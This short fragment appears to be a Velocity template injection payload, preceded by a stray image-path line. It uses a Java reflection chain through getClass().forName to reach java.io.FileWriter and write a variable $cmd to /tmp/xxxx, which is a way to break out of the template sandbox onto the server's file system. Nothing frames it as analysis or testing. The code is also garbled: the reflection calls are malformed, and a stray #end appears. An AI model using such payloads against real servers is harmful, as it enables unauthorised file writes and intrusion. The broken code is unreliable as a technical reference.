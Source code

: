 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter").getMethod("FileWriter",null).invoke("/tmp/xxxx").write($cmd))
$monkey
#end
